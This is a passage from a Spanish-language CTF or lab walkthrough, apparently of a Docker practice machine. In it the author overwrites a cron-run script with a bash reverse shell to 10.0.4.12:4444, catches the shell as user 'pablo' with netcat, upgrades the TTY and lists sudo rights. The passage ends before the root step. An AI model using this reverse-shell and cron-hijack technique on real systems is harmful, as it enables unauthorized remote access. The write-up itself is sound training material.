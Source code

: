 Es muy probable que exista un `crontab` que ejecute este `script` cada cierto tiempo, por lo que, si podemos modificarlo, podremos inyectar código arbitrario para escalar privilegios.

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.0.4.12/4444 0>&1\n' > script-h.sh
```

Hemos editado el `script` de `bash` para que nos envíe una `reverse shell` a nuestra máquina atacante.

Colocamos el `listener` en Kali y, al cabo de unos segundos, recibimos la `reverse shell` como el usuario `pablo`.

```
sudo nc -nlvp 4444
```

Info:
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 33726
bash: cannot set terminal process group (427): Inappropriate ioctl for device
bash: no job control in this shell
pablo@8327ac6ad2ce:~$
```

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA A ROOT

Comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for pablo on 8327ac6ad2ce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pablo may run the following commands on 8327ac6ad2ce:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/nllns/clean_symlink.py *.jpg
```
